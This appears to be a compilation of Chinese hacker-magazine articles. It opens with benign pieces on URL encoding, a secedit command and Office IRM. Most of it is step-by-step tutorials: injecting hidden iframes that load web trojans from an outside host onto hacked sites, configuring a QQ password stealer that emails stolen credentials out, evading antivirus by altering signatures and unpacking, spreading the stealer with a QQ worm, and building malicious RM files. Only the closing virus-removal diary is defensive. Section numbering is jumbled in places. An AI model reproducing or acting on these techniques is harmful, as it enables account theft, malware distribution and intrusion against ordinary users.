URL的路径字段与UNIX目录结构在形式上兼容。由于互联网早期设计深受UNIX影响，路径通常使用“/”作为层次分隔，并从根“/”开始。与DOS/Windows的盘符体系不同，UNIX将设备与文件统一为树状层级的一部分，因此更便于抽象路径语义。


图示示例包含`/usr`、`/bin`、`/etc`、`/dev`等目录，以及`/etc/passwd`、`/dev/hda1`等路径。其核心思想是：路径即节点层次关系。


### 三、URL中的协议字段

例如`http://www.xxx.com/news/index.php`，`http`是协议名，后接`://`。应用层常见协议有`http`、`https`、`ftp`等。HTTP采用请求/响应模型；HTTPS则是在SSL/TLS保障下的安全HTTP。

> 小知识：什么是SSL？  
> SSL（Secure Sockets Layer）由Netscape提出，用于浏览器与服务器之间的身份认证与加密传输，位于TCP/IP与应用层协议之间，为通信安全提供支持。

`mailto`协议用于发送电子邮件，常见于“联系我们”链接。其URL可不含常规路径层次，而以`用户名@主机名`形式指定邮箱地址。

`about`协议用于访问浏览器内部保留页面（如`about:NavigationFailure`、`about:home`）。这类别名可在系统配置中定义，文中示例展示了通过注册表项管理相关映射。


将会弹出“编辑字符串”的对话框（如图9）。


第二步：关闭注册表编辑器，打开一个新IE窗口，在地址栏中输入“about:sec”，即可打开“http://www.securityfocus.com/”这个网站了（如图10）。


若你使用“about”协议指定一些没有在注册表中指定的别名时，浏览器仅仅将该别名回显出来，除此之外什么也不做（如图11）。这样做并非毫无意义，手工验证编码/解码就能利用“about”协议的这个特点。

## URL编码

### 一、ASCII码

你或许知道，计算机、数字通信网络的世界中，任何事物都是用二进制数值表示的。也就是说，我们在浏览器地址栏中输入的文本形式URL，需要先编码为一个方便转换的二进制数值符号。这个中间产物就是ASCII（American Standard Code for Information Interchange，美国标准信息交换）编码……

> 小提示：ASCII表中每一个对象的编码都分别用二、十、十六进制表示；在URL中常使用十六进制编码。

现在，对照ASCII码表，可以查阅到“PCS”这三个大写字母的十六进制ASCII编码分别是：“P”=“50”、“C”=“43”、“S”=“53”。现在就要利用前面所提过的“about”协议的特点来验证了……在ASCII码之前加一个“%”符号作为转义字符，其含义就是告诉对方“我发送去的是编码符号而不是纯文本，请解码”（如图12）。


你还可以用“%73%69%6E%61”替代“sina”，以此访问新浪网站（如图13）。一般情况下，这么干没什么意义，但偶尔遇到对方屏蔽一些字符时，在URL中用ASCII码很可能就巧妙地绕过这样的限制，从而轻松解决问题。

### 三、Unicode和UTF

ASCII简单、优美，但弱点是信息量有限，无法表达像中文这样信息量大的文字。为了推动国际信息交流，产生了Unicode……UTF-8是常用编码方法。UTF-8的码长为3个字节……可使用Encode/Decode Tools进行各种字符的编码/解码转换，操作非常简单（如图14）。


> 小技巧：有的在线听歌网站上以中文命名的歌曲文件不能够在线播放怎么办？可在IE高级选项里调整URL发送编码（UTF-8相关设置）。

【本文中涉及到的Encode&Decode Tools编码解码器在光盘中均有收录】通过本文我们了解到URL原来是这么丰富……

# 恢复用户权利选项

对于一些系统中重要的操作权限，我们可以通过“用户权利指派”的策略集进行“许可”或“禁止”管理……如果需要恢复默认设置，可在命令提示符执行相关secedit命令。

```bash
secedit /configure /cfg %windir%\repair\secsetup.inf /db secsetup.sdb /areas USER_RIGHTS /verbose
```

提示：可执行“gpupdate”强制刷新；也可通过ms-help查看secedit帮助文档。

## 应用Office 2003信息权限管理——彻底保护机要文档

sheepxxy

- 你可以从本文学到：
- 什么是信息权限管理服务（IRM）
- 如何配置IRM
- 如何应用IRM
- 使用IRM中遇到的一些问题及解决方法

你若是还在为使用Office的密码加密方式不安全而苦恼的话，不妨试用一下Office 2003信息权限管理服务（IRM）来保护文档。你将会惊喜地发现，若是没有你的许可，不管这份文档在哪，别人都休想执行未获得你授权的操作，确确实实地保障你所发布文档的完整性、版权保护等安全性。

## 一、配置

现在就让我们进入Office 2003，我将作为向导带领你逐步完成信息权限管理的操作，并为每一步操作提出我的看法和对你的建议。

- 1. 在已打开的Office 2003 Word上点击“文件”→“权限”→“限制权限为...”，若你是第一次使用信息权限管理功能，将会打开介绍窗口（如图1）。


这里选择“是”，将会提示你下载安装Windows Rights Management客户端软件安装文件MSDRMClient.msi，下载到硬盘上后直接双击就可以安装。

- 2. 安装完IRM客户端之后，重新打开Office 2003 Word软件，点击“文件”→“权限”→“限制权限为...”后，这次将打开“服务注册”窗口。在这个对话框确认希望注册之后选择下一步，若你过去没有设置不提示“安全连接”的话，将打开“安全警报”对话框（如图2）。


> 小提示：HTTPS协议是基于SSL（安全套接字层）来完成的，你无须了解这一安全协议本身，但请相信在注册服务的过程中，你的所有信息都是受到很强保护的。

- 3. 这个环节将提示你使用MSN账户登录，登录过程与直接登录Hotmail信箱是完全一样的，在登录成功后还要选择IRM证书的类型（如图3）。


> 小提示：若你的计算机上安装的是Windows XP操作系统，MSN账户也已经与系统账户绑定，此处建议选择“标准”型证书；若你在公用电脑上使用该功能，就一定要选择“临时”型证书。

选好证书后，下一步程序会自动连上网络申请证书服务，成功后Office 2003将自动与证书服务器通信（如图4）。


> 小提示：普通试用证书的服务器并非IBM公司，也并非本地计算机完成校验，所以在这个过程中必须保持网络连接。待验证完毕后，Office 2003的信息权限管理服务配置就完成了。

## 二、应用

配置好信息权限管理服务后，每当打开Office 2003软件，点击“文件”→“权限”→“限制权限为...”，都将直接看到“选择用户”的提示（如图5）。


直接点“确定”之后将出现一个“权限”窗口，在这个对话框勾选上“限制对此文档的权限”这个项目前后，灰色部分的控件将被激活。


图6 “权限”对话框，授予特定MSN账户以特定权限


图7 “共享工作区”状态显示

注意：1. 使用Office 2003信息权限保护功能保护的文档，要求对方使用具备此项功能的Office 2003才能够打开。若对应使用的Office软件版本低于2003，那么打开该文档将会显示错误提示信息，见图8。2. 验证身份信息时必须联网，但验证之后信息权限已经保存在本地硬盘上，所以即使没有网络连接，也可以打开被保护的文档。

> 小提示：Office版本低于2003的用户，应访问下载插件以获得访问信息权限保护文档的权限。

## 三、结语


图8 低版本的Office中显示的错误提示信息

信息权限管理是微软公司数字版权管理（RMS）的一个向Office系列办公软件以及IE延伸的面向文件的数据保护技术。

> 编辑感慨：普通用户通常仅用到Office功能的一小部分，VBA等能力可以让Office更人性化地服务。  
> 小知识：什么是VBA？VBA（Visual Basic for Application）是用于应用程序自动化的通用语言，可视作Visual Basic的子集。

# 黑客手册投稿须知

《黑客手册》栏目投稿说明，欢迎经验、感想、技巧、原创文章与新闻资讯投稿，并对稿件字数与内容范围作出说明。

- 1. 文章要求：避免错别字、语句不通顺、标点错误、废话与套话。
- 2. 图片要求：格式不限，图片清晰，建议单图单文件并标注序号。
- 3. 文章格式：TXT和DOC均可，配图可插入文档并标识位置。
- 4. 投稿方式：电子邮件或在线投稿。
- 5. 反对抄袭和一稿多投。
- 6. 未经许可不得转载发布。
- 7. 稿酬与稿费：请附联系方式与汇款信息。

# 钓鱼也可以这样玩

yizhigu

- 你可以从本文学到：
- 如何通过自己的论坛钓鱼；
- 如何制作网页木马；
- 如何使用iframe来隐藏网页木马。

## 1. 钓鱼的思路

> 什么是钓鱼？

钓鱼（英文为Phishing）是指利用欺骗性很强、伪造的Web站点来进行诈骗活动，目的在于窃取用户的账户资料。近几年，利用伪装成“中国工商银行”主页的恶意网站进行诈骗活动的事件屡见不鲜。而本文是利用论坛来钓鱼。

记得每次一些论坛、Blog或者整站系统出现漏洞，一些好事的小黑总会用搜索引擎来搜索这些存在漏洞系统的关键字。最起码一些作者在文章里告诉了我们搜索存在漏洞系统的关键字，那么我们是不是可以利用这个来进行挂马钓鱼？这显然是成的。我们只要在自己的主页或者论坛上加上这些关键字，例如：Powered By : Dvbbs Version 7.0.0 Sp2，那么当“黑客”搜索到这个关键字后就会来到我们的挂好马的页面。当然，最好是放置一些新出漏洞的关键字，利用的效率就会更高了。是不是很有意思？

## 2. 挂马以及挂马的技巧

> 什么是挂马？

挂马是指利用漏洞侵入网站后台，然后上传木马，再把网页木马代码加入到网站首页中去。

这里有必要告诉一些新手如何挂马：首先需要一个个人空间，大家可以到www.jn001.net去搜索一些免费的个人空间。最好是在入侵的网站上放我们的页面，因为一般域名和网站更容易被搜索到。然后就需要一个网马生成器，这里我推荐用zxylove的网马生成器，因为针对的系统比较多，而且生成的htm文件可以加密躲过杀毒软件。同时存放的exe文件最好是用一些下载者工具处理，这样页面释放出来的速度就相对比较快，我们的木马也很容易进入别人的电脑。

如果直接让别人下载灰鸽子服务端，可能页面还没生成好就被别人关闭了。

首先生成好的页面传到空间里，假如是www.xxx.com/mm.htm。最后就只需要在我们的动网论坛主页里加上关键字和挂马代码。

```html
<iframe src="http://www.xxx.com/mm.htm" name="zhu" width="0" height="0" frameborder="0"></iframe>
```

其实像动网这样的后台可以直接在“论坛版权信息”里加关键字。关于挂马，还有必要介绍一些技巧，例如刚才所说的用下载者可以避免页面迟缓。再就是木马的免杀，这些方法可以去网上找找。还有一个思路就是在一个页面多挂一些不同的网页木马，起码可以针对不同的系统和漏洞，利用价值就会更大了。

## 3. 实际利用

下面是我把一个实践过程讲解给大家。这里我进的是一个存在默认管理员用户和密码的动网论坛，来看一下论坛页面底部的版权信息，如图1所示：


然后进入后台的基本设置里的“论坛版权信息”，加上关键字：“Powered By : Dvbbs Version 7.0.0 Sp2”，如图2所示：


最后需要把论坛主页更新一下。这时论坛页面已经添加上了这个“小黑”的关键字了。

再就是webshell了，这个论坛的管理员把上传页面删了，所以不能上传自己的网站webshell，于是我在后台的上传头像管理里找到别人放好的webshell，然后用别人的webshell写入我们的海阳ASP木马。最后到论坛的index.asp编辑加上挂马代码就OK了。

## 4. 总结

灵活的思路，加上多看《非安全》，会让我们想出更多的钓鱼方法。最后，让我们来句口号：“你黑！我是黑吃黑！”

【本文中涉及到的zxylove网马生成器及相关动画，在光盘中均有收录】

> 编辑感慨：太公钓鱼，愿者上钩。通过此方法确实可以钓到鱼，但是如果你的论坛在搜索引擎的排名太靠后，那么你只有在江边练瑜伽了。不过，通过这个思路让我想到，如果你的网站上有webshell，你就可以在这个webshell里挂木马，接下来就可以教训一下这个冒失的黑客了，不要玩得太过火就是了哦！


# 菜鸟的木马也来漫天飞舞

李丰初

- 从本文你可以学到：
- 如何配置阿拉 QQ 大盗
- 通过 AVFucker & Boler 打造免查杀的木马
- 使用 QQ 爱虫来传播木马
- 利用脚本加密逃过杀毒软件的查杀

最近，国内的大型黑客网站都开办了木马免杀班，比如 77169 华夏、3800CC 黑鹰，还有 HACK58 黑客动网吧等等。木马如何不被杀永远是一个谈论不止的话题，但是纵观这些网站的培训课程，都是要学习去壳、去特征，如何给木马脱壳与修改特征码等，从而达到免杀的目的，这些教程主要是针对灰鸽子的免杀为例子。这些对于菜鸟来说，只能学到一些皮毛，那有没有更简单的方法学免杀？免杀后有没有更简单的方法使木马大规模地传播？答案是肯定的！现在就以 QQ 阿拉大盗为例子来解说。


> **准备工作**
- 收邮件的信箱一个，作为接收 QQ 用户名与密码，推荐使用网易信箱，收信成功率大。
- 申请一个主页空间，以此来存放网页木马。

## 一、序幕：阿拉 QQ 大盗的配置

首先，按图1所示配置好盗 QQ 的木马程序。配置好以后，点击“测试邮箱”，为了使盗号的信收得到，必须测试下。建议把“高级设置”里面的勾全选上。最后点击“生成木马”就生成了 QQ 盗号木马了。

## 二、木马阿拉 QQ 大盗的菜鸟加密法

当用阿拉 QQ 大盗生成了木马后，就要使它达到免杀的效果。本文用两种加密法对其加密。注意：此处加密不是所谓的简单地加壳，而是通过自动改特征码达到免杀的效果。

> **小知识**  
> 什么是特征码？  
> 它是指反病毒软件为了能准确查杀某种病毒，通过提取文件中某一段或多段连续的数值；这些数值通常是某一个程序所独有的标记。简单说就好像每个人的指纹一样，具有唯一性。

### 1. 使用 AVFucker 汉化版自动改特征码

首先打开 AVFucker 汉化版，打开用 QQ 阿拉大盗生成的木马，新建好一个文件夹作为生成新木马的存放地址。然后点击“计算”（如图2）。最下面的“信息”25283 files，就是会自动生成 25283 个文件，后面的 648939KB 就是总共生成文件的大小。最后一点是点击“开始”。可能有些读者不明白它的原理，其实简单地说就是：把你所指定文件的区段逐个字节替换成 00，这样每个字节替换下去肯定会换到特征码上，特征码被换成了 00 肯定就不会再被杀了。


生成新的文件以后，就更新杀毒软件对此进行全面杀毒，剩下的不被杀的就是达到了免杀（如图3）。

> **小建议**  
> 在查杀前首先升级病毒库后再执行，卡巴斯基以识别病毒能力强而著称，只要能通过其检测，一般来说都能躲过其它杀毒软件的查杀。

### 2. 伯乐相马自动修改特征码

此软件亦如上面的 AVFucker 汉化版一样的工作原理，但有一点不同的是，它不是把你所指定病毒文件的区段逐个字节替换成 00，而是智能化地有选择地改变里面的内容。

注意：在打开伯乐相马之前一定要关闭杀毒软件，因为杀毒软件会误认为伯乐相马是病毒（如图4）。


选择好 QQ 木马的路径还有生成路径以后，点击“生成样本”就可以自动改特征码了。然后再用杀毒软件对其进行彻底查杀。查杀后剩下的就是免杀病毒了。最后来总结一下两个自动改特征码软件，这样方便读者有选择性地使用它们（如图5）。

| 软件名字 | 自动生成文件大小 | 免杀能力 | 适合使用环境 |
|---|---|---|---|
| AVFucker 记忆版 | 巨大 | 极强 | 光盘木马病毒 |
| 位冰扫描王 | 一般 | 一般 | 本机运行中的木马病毒 |

图5 两者之间的比较

## 三、文件的捆绑

此时把 QQ 阿拉大盗与 QQ 爱虫一起捆绑起来，本文要用到的是一个“永不被查杀的捆绑机”（如图7）。选择好 QQ 阿拉大盗与 QQ 爱虫木马后，“安装首次运行”选择为 QQ 阿拉大盗，“当首次结束再运行”选择 QQ 爱虫。“窗口运行状态”此项一定要选择上图所示的“隐藏”。最后点击“捆绑文件”就生成了最后的木马。


## 三、木马的蠕虫传播

该文件的传播是用 QQ 来传染（如图6）。这个 QQ 爱虫能通过最新版的 QQ 来传染，因为它已经把 EXE 扩展名改为 PIF，执行起来是一样的。用这个 QQ 爱虫传播的时候一定要把“诱导语句”给勾上，下载地址就是你的 QQ 阿拉大盗的地址，另一个地址就是填写 QQ 爱虫的地址。然后点击“生成爱虫服务端”，最后它会对第一种病毒文件特征进行自动修改，从而达到免杀的效果。其工作原理与 QQ 尾巴病毒类似。


## 四、网页木马的加密

本文介绍的是绝爱 HELP 控件网页木马旗舰版，关于它是怎么将结合病毒文件（此处的病毒文件为捆绑后的病毒文件）生成网页木马就不再啰嗦了，网上有大把的教程。现在把已经生成好的、用绝爱 HELP 生成的木马包含两份文件，一个是 *.TXT，一个是 *.HTML。以记事本打开网页木马 *.HTML 并把里面的全部内容复制，然后粘贴到下面的“脚本加密与解密”文件中（如图8）。点击“ENCODE 加密”，把加密后的文件全部替代 *.HTML 的内容。此时网页木马已经加密完成。然后把此网页木马上传到你的网络空间去，只要有人一访问 *.HTML 文件，就会自动种上你设置好的阿拉 QQ 大盗了。


> 提示：总共有四个文件需要传到之前自己申请的主页空间里，一个是 QQ 阿拉大盗生成的 EXE 木马，一个是 QQ 爱虫生成的 EXE 木马，还有两个分别是网页木马生成的 *.TXT 与 *.HTML 文件。

最后，哪个读者还不明白的，可以到 www.nohack.cn/bbs 里提问，我会第一时间回答你的问题。【本文中涉及到的 QQ 爱虫生成器、阿拉 QQ 大盗等工具，在光盘中均有收录】

经过上述读者的建议，作者这次的文章通俗易懂，读者只需手动动鼠标即可轻松完成。对于网页木马加密的方法觉得不妥，现在大多数杀毒软件都能轻松识别恶意网页。网页木马生成器大多是通过相关漏洞来完成自动种植工作的，只要及时打上补丁即可避免。


# 网页木马制作及利用全攻略

yizhigu [S.H.C]

- 从本文你可以学到：
- 如何修改灰鸽子的特征码
- 如何使用 CCL 修改内存中木马的特征
- 使用 RealMedia Editor 来制作恶意的 rm 文件

## 1. 前言

网页木马发展到现在已经相当流行了，可是如何选择一个好的网马以及躲避杀毒软件的查杀，却成为许多菜鸟朋友非常棘手的问题。特别是大家关注的网页木马的利用价值——怎样才能高效率地传播我们的网页木马？本文将就这些问题介绍一下方法和思路。

## 2. 制作网页木马和免杀处理

现在的网页木马无非就是通过 IE 的漏洞来执行，所以我们必须选择一款针对性和成功率比较高的网页木马。经过多方测试，我觉得上传 SP2 的网页木马效果不错。它是利用 hhctrl.ocx（帮助控件）的漏洞跨域写脚本文件并执行，针对多个未打补丁的 Win 系统版本。我用的是浪客联盟的 SP2 网页木马生成器，选择好木马的路径和保存路径后就会生成网页木马的三个文件。一般木马的服务端比较大，所以有必要用下载者软件做个小型木马。

首先说说如何做木马服务端和下载者免杀，我以灰鸽子和百世终结下载者来做例子。在配置好无壳的鸽子服务端后，需要利用 ResScope 导出里面的资源文件 maindll.dll（如图1）。然后再导出 maindll.dll 的 getkey.dll 和 hook.dll 文件，这就是所谓的内存免杀。这里我推荐 dll 文件用 ccl 特征码定位器来做内存免杀，手动定位修改特征码，直到杀毒软件不能在内存中查出病毒。


打开 ccl 后，弹窗先设置一下。在设置的总体参数里选择好我们自定义的目录，接着利用文件里的“内存特征码”载入我们的 dll 文件。打开后双击第一个区段，这样就将修改这个区段的特征码，确定后我们就进入修改项目，然后保证在 5 秒时间内暂停，再用杀毒软件的内存查杀功能找出被杀的 dll 文件，记下文件名称，在文件信息里选中后继续在 5 秒内再暂停一次，再次使用内存查杀后记录未查杀的 dll 文件，再继续重复暂停环节先前的操作，直到杀毒软件不能查杀为止（如图2、图3）。


可以用这个流程来解释：运行→5 秒内暂停→内存查杀→记录被杀的文件后选中→继续运行→5 秒内再暂停……不再被杀。我们把做好的免杀 getkey 和 hook 导入到 maindll 后，用相同方法对 maindll 做免杀并将这个文件导入到服务端就可以了。完成内存免杀后，利用冰城文件防火墙的修改特征码功能来对服务端文件做免杀处理，在最后生成好的文件中挑选可以用的就完成了整体免杀了。至于下载者生成的木马，我们同样选择不加壳生成，因为主文件比较小，再加个壳就可以了，我推荐使用 nspack 3.X + nsPack 3.1-3.X 免杀补丁做加壳和变形处理，最后我们的木马就完成了。利用这个小木马生成好网页木马后，同样要对 htm 文件做免杀处理，这里所谓的免杀只是一个加密过程，用 htmtool 这个软件对 htm 文件加密后，就整体实现了页面文件和木马文件的免杀了。当然对于不同的杀毒软件识别的特征码是不同的，只要修改特征码到所有杀毒软件完全不能识别就可以了。把生成好的文件 FTP 到个人空间里，这个网页木马就算完工了。

## 3. 利用网页木马搞肉鸡

假设我的个人空间是 www.xxx.net。把生成的 htm 文件改为 index.htm，直接打开主页就会运行网页木马了。所以下文的挂马地址是：www.xxx.net。那我们该如何更好地利用网页木马呢？首当其冲的就是网页挂马了。怎么，你还不会入侵网站？那就多看看《黑客手册》吧，只要在 webshell 中找到被入侵站点的主页文件，一般为 index.asp 或者 index.htm，当然页面调用文件也可以，挂上这样一段代码：

```html
<iframe src="http://www.xxx.net" width="0" height="0" frameborder="no" border="0" marginwidth="0" marginheight="0" scrolling="no"></iframe>
```

保存更新后，打开网站的首页就会直接运行我们挂好的马儿。为了避免被管理员发现，最好对这段挂马代码做 URL 转换。用 htmtool 加密后只保留 `<SCRIPT LANGUAGE="javascript">` 和 `</SCRIPT>` 之间的加密文件就可以了（包含这两段代码）。哈哈，网页挂马是不是很容易？别人打开我们入侵的网站，就同样会运行我们挂马的网站了。

## 4. 利用 rm 文件挂马

制作 rm 文件挂马也是一个很实用的方法，我们需要修改 rm 文件的工具 RealMedia Editor。利用一段代码就可以了。我们在记事本里写上：u 00:00:00,00:00:10 http://www.xxx.net，保存后利用 RealMedia Editor 的合并事件功能导入我们写好的文本文件，就制作出了所谓的 rm 木马（如图4）。

> 如果对方使用的 RealPlayer 打开这个恶意的 RM 文件后，该事件 u 00:00:00,00:00:10 http://www.xxx.net 将会被激活。如果是其他播放器则无法执行这个事件。

别人只要打开修改好的 rm 文件，就会自动弹出我们的挂马地址了。

## 5. 后记

其实制作网页木马真的很简单，需要的是足够细心做免杀处理，和灵活的头脑来进行挂马。当然，利用网页木马的局限也是比较大的，仅仅针对某种补丁的系统，所以大家多关注网上的最新漏洞对制作网页木马的工作是必不可少的。最后奉劝那些盲目相信杀毒软件的朋友，还是给系统打开自动更新吧，这样才能更好地防止网页木马。


# 木马程序的伪装及其应用

天涯文章

- 从本文中你可以学到：
- 如何使用 PEID 侦壳
- 修复变异的 UPX 壳 & 修复输入表
- 自动脱壳 & 手动脱壳
- 修改程序特征

## 一、侦壳

今天我们就选择国内当前非常流行的阿拉 QQ 大盗 0910 会员版来为大家进行演示。如果阿拉 QQ 大盗被进行了加壳处理的话，在进行特征码的修改以前，首先需要进行脱壳处理。运行查壳程序 PEID，将程序的客户端程序拖拽到 PEID 的界面中，得到的结果为“UPX 0.89.6 - 1.02 / 1.05 - 1.24 (Delphi) stub -> Markus & Laszlo”（如图1）。


## 二、修复变异的壳

说明阿拉 QQ 大盗的客户端程序采用了变异的 UPX 壳进行压缩。由于使用了变异的 UPX 壳，所以在脱壳以前需要使用 UPXFIX 对其进行修复。运行 UPXFIX，在“File”选项中选择需要修复的程序，接着在“Decompress method”选项中选择“5”，然后点击“Fix”按钮对文件进行修复（如图2）。


## 三、自动脱壳

接着使用 UPXShell 对修复的程序进行脱壳，点击“打开”按钮选择需要脱壳的程序，然后点击“解压”按钮就可以成功地对程序进行脱壳（如图3）。

用杀毒软件对生成的服务端进行查杀，发现已经被查杀了。

下面我们就开始对阿拉 QQ 大盗的特征码修改操作。用资源修改工具 ResScope 打开已经脱壳完的客户端程序，点击资源树下的“EXEFILE”这一项，其中包括 QQ1、QQ2、QQ3、QQ4 一共 4 个小项（如图4）。


> **小知识**  
> 什么是壳？  
> 在自然界中，我想大家对壳这东西应该都不会陌生了，植物用它来保护种子，动物用它来保护身体等等。同样，在一些计算机软件里也有一段专门负责保护软件不被非法修改或反编译的程序。它们一般都是先于程序运行，拿到控制权，然后完成它们保护软件的任务。就像动植物的壳一般都是在身体外面一样理所当然（但后来也出现了所谓的“壳中带籽”的壳）。由于这段程序和自然界的壳在功能上有很多相同的地方，基于命名的规则，大家就把这样的程序称为“壳”了。


点击 QQ1，然后点击“文件”菜单下的“导出资源”命令，将 QQ1 这一项保存为 QQ1.exe。接着再分别将 QQ2、QQ3、QQ4 另存为 QQ2.exe、QQ3.exe 和 QQ4.exe。其实这 4 个 QQ 程序都是阿拉 QQ 大盗的服务端程序，只是图标不同而已。现在对这 4 个文件分别进行查壳，发现它们全部使用的是北斗压缩程序进行压缩的（如图5）。

## 四、手动脱壳

> 什么是反汇编？  
> 反汇编其实就是把程序的机器代码利用逆向汇编编译器反向解释出代码。它可以分为动态和静态两种。静态就是直接反汇编执行程序，要求程序未压缩和未加密（即未加壳）；动态就是直接给执行程序营造一个执行环境并抓取程序在内存中的机器代码。

脱北斗的壳没有现成的工具，只能进行反汇编手工脱壳了。运行 OLLYDBG，任意载入一个服务端程序，服务端程序载入以后停在 00414F66 这个地方，连续两次点击 F8 键跳转到 00414F68 这个位置（如图6）。

```
00414F66  9C          pushfd
00414F67  60          pushad
00414F68  E8 00000000 call qq2.00414F6D
```

> ESP 定律的原理是什么？  
> ESP 定律的原理是堆栈平衡原理。它的适用范围包括几乎全部的压缩壳、部分加密壳。只要是在 JMP 到 OEP 后，ESP=0012FFC4 的壳，理论上我们都可以使用。但是在何时下断点避开校验，何时下断点 OD 才能断下来，这还需要多多总结和多多积累。

> 这个步骤是最容易出错的地方，一定要经过 2 次跳转才能找到真正的 ESP 值。笔者在测试的时候就是没有注意到这一点，从而造成脱壳失败，希望大家注意。


输入命令：hr 0012FFA0（如图7）。接着按 F9 键运行它，没什么意外的话将很快到达程序出口的位置（如图8）。

`00414582   9D      popfd`

现在连续两次点击 F8 键跳转到：

`004086D0   55 db 55 ; CHR 'U'`

在它上面点鼠标右键，选择“脱壳在当前调试的进程”命令，在弹出的窗口中点击“脱壳之”。命令将服务端程序另存为 1.exe，这里还需要将“修正为”选项后面的值“B6D0”记下（如图9）。


## 五、修复输入表

脱壳后的服务端程序不能马上正常运行，我们还需要修复输入表，这时候该 ImportREC 出手了。首先运行原来没有脱壳的服务端程序 QQ1.exe，然后运行 ImportREC 程序。首先在“获取系统中的进程”列表选择 QQ1.exe 的执行程序，接着将“IA 下需要的信息”中的 OEP 中的选项改为前面记住的 B6D0，然后点击“自动搜索 IAT”按钮进行搜索，搜索完成后出现一个提示窗口（如图10）。


## 七、导入修改特征后的资源程序


服务器端程序改造完成后，用户可以对其进行加壳处理等操作，然后把修改后的服务器端程序导回客户端程序进行保存。用资源修改工具 ResScope 打开已经脱壳后的客户端程序，点击资源树下的“EXEFILE”中的“QQ1”这一项，然后点击“文件”菜单下的“导入资源”命令，将修改完成的服务器端程序进行导入。完成以后，同样使用 UltraEdit 打开阿拉 QQ 大盗的客户端程序，同样替换掉 NTdhcp 这些字符，这里要和前面自己定义的名称一样才行，这时候整个文件都已经完成了。最后用户同样可以对客户端程序进行加壳等操作。


再根据提示窗口的提示点击“获取输入表”按钮，接着点击“修复抓取文件”按钮并选择脱壳的服务器程序 l.exe，下面程序会对服务器程序进行自动修复，并提示“修复完成并已经保存”，这样我们就完成了服务器程序的手工脱壳操作（如图11）。脱壳完后查壳显示：Borland Delphi 6.0–7.0 [Overlay]。

## 六、修改程序特征

脱壳完后，我们就可以开始服务端程序的特征码修改了。用 UltraEdit 打开需要修改的服务端程序，点击快捷键 CTRL+H 切换成十六进制排版模式，现在来搜索特征 NTdhcp 这 6 个字节。为什么要搜索这 6 个字节呢？因为，每种程序都有它们特定的程序名称，例如阿拉 QQ 大盗是 NTdhcp，灰鸽子是 GrayBird，而正是这些程序名称，往往成为杀毒软件进行判断的特征码，所以只要我们将这些名称进行修改，就可以起到免杀的效果。点击“搜索”菜单中的“替换”按钮，在弹出的“替换”窗口中的“查找”项中输入 NTdhcp，在“替换为”项中任意地输入一个名称，不过一定要保证它们之间的字节数相同，这里我就输入 nohack，然后开始进行替换（如图12）。替换完成后，基本就可以起到免杀的效果了。


> 【本文中涉及到的 peid、OllyDBG V1.10、Import REConstructor V1.6 等工具，在光盘中均有收录】

许多朋友在打造免杀木马时遇到的最大问题是壳脱了一个又一个，十分麻烦，有自动脱壳的还好，遇到需要手动脱壳的个个都倒下了。跟着作者的思路，我们可以轻松打造自己的免杀木马。作为 Q 族黑客，我们还是有必要学习一下汇编语言及破解技术的，这些什么，赶快买本《精通破解工具》好好学习学习。

# 快速查找电子邮件的地理位置

DreamMail 具有自动检索邮件服务器的功能，所以只要我们直接填好邮箱地址就可以收发邮件了。以后在我们收到新邮件时，在“来源跟踪”中就可以显示出邮件发送的地理位置了。其实现原理是 DreamMail 通过获取电子邮件源信息里所包含的邮件发送端的 IP 地址，然后查找到与 IP 地址相对应的地区名称并显示出来。

# 反毒日记——军团侦察员

- 你可以从本文学到：
- 清除病毒基本方法；
- 判断可疑程序的基本方法；
- 如何利用 WinHex 查找盗号者的 E-Mail。

## 一、前言

病毒和木马已经成为骚扰我们正常生活的一分子，几乎所有的人都被它们祸害过。现在每天的新病毒要以百位来计算，变的花样更不用说。例如国内有名的木马——灰鸽子，每天反病毒公司截获的变种就有二三十以上。是什么让原本灭亡的木马又复活了呢？还不是一个钱字，全线电脑动力下什么事情都有可能发生。有点扯远了，先来看看今天的任务吧。

## 二、寻找可疑程序及分析

一天一位网友向我求助，他 QQ、E-mail 的账号和密码同时被盗。由于是一个群的就帮他看看喽。我立刻通过 QQ 远程协助功能进行相应的收集工作，首先在任务管理器中发现可疑进程 getpsw.exe，然后我又在注册表键值 HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\Explorer\Run 中发现可疑程序，键值名称为“getpsw”，关联程序为“C:\WINNT\system32\getpsw.exe”。

这个键值经常被一些病毒、木马之类的程序利用，特别是喜欢在程序的路径上做文章。如果是在 system32 这样的文件夹里更应该注意，因为木马作者通常欺负我们广大菜鸟不熟悉系统文件夹结构及系统文件，借此来欺骗我们，所以请大家不要上当，有空多了解一下相关知识。

> 小提示：自己在处理病毒或木马的时候最好断开网络再进行处理，这样可以有效避免病毒的恶意传播或木马的恶意破坏（在这之前一定要先对电脑上重要的数据进行安全有效的备份，万一清除失败有后悔药吃哦）。

我觉得 getpsw.exe 这个文件很可疑，于是来到 C:\WINNT\system32 目录下查找这个文件，仔细一看，嘿，还真被我发现问题了。大多数系统文件是 2004 年左右的，而这个文件是 2005-8-26 14:06:22，由此证明它不是系统文件。从名字看这个程序好像就是 get password 的意思，于是在 C 盘中继续寻找，又发现两个日期时间和 getpsw.exe 一样的文件，分别是 psw.bpl 和 psw.dll，我尝试用反毒经典步骤进行清除这些文件。

> 小提示：反毒经典步骤是：找到可疑进程终止掉→找到相应文件删除掉→找到注册表中相关键值删除即可。

## 三、清除可疑程序

在这里是：先终止进程 getpsw.exe，再到 C:\WINNT\system32 删除这个文件及相关的两个文件，最后去注册表里删除键值 getpsw。完成后重新启动电脑，再到任务管理器里看看，getpsw.exe 没有再次出现。由此证明我成功抓住了上面的启动键值和这个木马程序，任务也应该说就此完成了。

无奈之下只好自己解决。由于我手头上没有嗅探软件，于是就用 WinHex 来探探这个程序。通常来说偷号程序都会把得手的账号和密码发送到指定邮箱里面，我用 WinHex 打开 getpsw.exe 这个程序，搜索“.com”，于是就找到了偷号者的邮箱地址，如图所示：


偷号者的邮箱是 *****@126.com，除了偷号者的邮箱，还发现了 max@juntuan.net 这个地址，好像是第八军团邮箱地址。到第八军团的网站看了看，终于发现了一个新的偷号程序名字叫军团侦察员 v1.2。

> 附知识：

军团侦察员 v1.2 功能说明：该软件的主要功能可以截获 Windows（98/ME/2000/XP/2003）平台下几乎所有的密码（例如 QQ、浩方、热血传奇和网页密码等）。如在浏览的网页中含有密码，将会被截下来，包括各类邮箱账户、社区网站等。

